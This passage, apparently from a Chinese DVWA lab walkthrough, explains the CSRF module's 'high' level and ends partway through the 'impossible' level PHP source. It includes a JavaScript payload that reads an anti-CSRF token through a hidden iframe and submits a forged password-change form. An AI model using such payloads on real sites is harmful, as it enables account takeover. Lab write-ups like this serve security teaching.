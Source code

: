 high级别的csrf它增加了token的检查机制。用户访问密码修改页面时，服务器会返回一个随机的token，当用户向服务器提交请求时需要将token的值附上。服务器在接收到请求后会先检查token，如果用户token和存放在服务器的值不一样，就会拒绝执行。

要绕过high级别的token检查机制，就要获得受害用户页面的token

一般获取受害用户token的方法是通过javascript，代码如下：

```js
<script>
  function attack(){
    var token = document.getElementById("get_token").contentWindow.document.getElementsByName('user_token')[0].value
    document.getElementsByName('user_token')[0].value=token;
    alert(token);
    document.getElementById("csrf").submit();
  }
</script>
<iframe src="http://192.168.31.157:8080/vulnerabilities/csrf/" id="get_token" style="display:none;">
</iframe>
```

这里通过一个看不见的iframe来访问密码修改的页面，并获取页面的token

但是这就会产生一个跨域的问题，在浏览器中不同域下的页面不能访问另一个域的内容。所以一般是通过xss漏洞来获取用户的token，然后再发送修改密码的请求，这里懒，就不演示了。



#### impossible

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
```